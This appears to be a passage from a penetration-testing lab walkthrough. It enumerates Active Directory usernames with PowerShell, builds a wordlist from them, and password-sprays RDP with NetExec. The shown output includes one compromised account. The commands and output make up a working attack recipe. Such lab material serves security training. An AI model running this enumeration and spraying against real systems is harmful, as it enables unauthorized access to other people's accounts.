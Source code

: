 ```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName
```

```powershell-session
PS C:\Users\helen> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

Administrator
Guest
krbtgt
Redpostmanrd
Snowfreeze
Lich
Crismerlin
Helen
Tiltmanx
Maria
Jhomil
Thael
Leonvqz
Frewdy
Josias
Thesuperteacher
Ambioris
Filiplain
Xracer
```

Students will return to their workstations and create a wordlist based on the users found in the previous command. The users will be used further in a password spraying attack using `NetExec` and targeting the RDP protocol:

Code: shell

```shell
netexec rdp STMIP -u users.txt -p RedRiot88
```

```shell-session
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ netexec rdp 10.129.229.244 -u users.txt -p RedRiot88

RDP         10.129.229.244  3389   SRV01            [*] Windows 10 or Windows Server 2016 Build 17763 (name:SRV01) (domain:inlanefreight.local) (nla:True)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Administrator:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Guest:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\krbtgt:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Redpostmanrd:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Snowfreeze:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [-] inlanefreight.local\Lich:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [+] inlanefreight.local\Crismerlin:RedRiot88 (Pwn3d!)
```
